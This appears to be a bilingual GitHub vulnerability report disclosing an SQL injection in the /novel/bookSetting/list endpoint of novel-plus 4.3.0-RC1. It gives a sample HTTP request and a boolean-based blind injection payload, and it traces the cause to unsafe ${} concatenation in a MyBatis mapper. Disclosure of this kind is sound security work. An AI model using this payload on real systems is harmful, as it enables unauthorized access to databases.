





## In the novel-plus version 4.3.0-RC1, there is an SQL injection vulnerability in the "/novel/bookSetting/list" interface.

### 版本 / Version

4.3.0-RC1

### 什么问题 / What's the problem

In the novel-plus system, there exists an SQL injection vulnerability in the /novel/bookSetting/list interface.

在novel-plus系统中/novel/bookSetting/list接口存在SQL注入漏洞

### 如何复现此问题 / How to reproduce this problem

#### 功能点 / Function points



#### 请求信息 / Request message:

```
GET /novel/bookSetting/list?type=3&limit=10&offset=0&sort=book_id&order=desc HTTP/1.1
Host: 127.0.0.1:8088
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: application/json
Referer: http://127.0.0.1:8088/novel/bookSetting
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3284050d-006d-47f0-83ff-82501693fe3e
Connection: close


```

攻击载荷 / payload:`AND 2111=(SELECT(CASE WHEN(2111=2111) THEN 2111 ELSE(SELECT  3865 UNION SELECT 6957) END))-- -`



There you can see it!

### 系统环境 (操作系统/MySQL版本/浏览器等) / System environment (OS/MySQL/Browser etc)

Mysql 8.0.14
Windows
JDK1.8.0_392
Chrome

### 说明 / Suggested description

In the novel-plus version 4.3.0-RC1, there is an SQL injection vulnerability in the "/novel/bookSetting/list" interface.
在novel-plus 4.3.0-RC1版本中/novel/bookSetting/list接口存在SQL注入漏洞
Failed to legally check parameters, resulting in SQL injection vulnerabilities.
未能合法检查参数从而导致sql注入漏洞.

#### 漏洞类型 / Vulnerability Type

SQLi

#### 产品供应商 / Vendor of Product

https://github.com/201206030/novel-plus/tree/v4.3.0-RC1

#### 受影响的产品代码库 / Affected Product Code Base

=4.3.0-RC1

#### 受影响组件 / Affected Component

/novel/bookSetting/list

#### 攻击方式 / Attack Type

Remote

### 漏洞成因 / Cause of vulnerability

In the 'com. java2nb. cover. controller. BookSettingController # list', receive parameters.

在`com.java2nb.novel.controller.BookSettingController#list`中，接收参数



Enter the service layer `com.java2nb.cover.service.impl.BookSettingServiceImpl#list`.

进入service层`com.java2nb.novel.service.impl.BookSettingServiceImpl#list`



In the end, it came to Mapper where ${was used for concatenation, so there is an SQL injection vulnerability present here.

最终来到Mapper中，此处使用了${进行拼接，所以此处存在了SQL注入漏洞



The end,thanks!
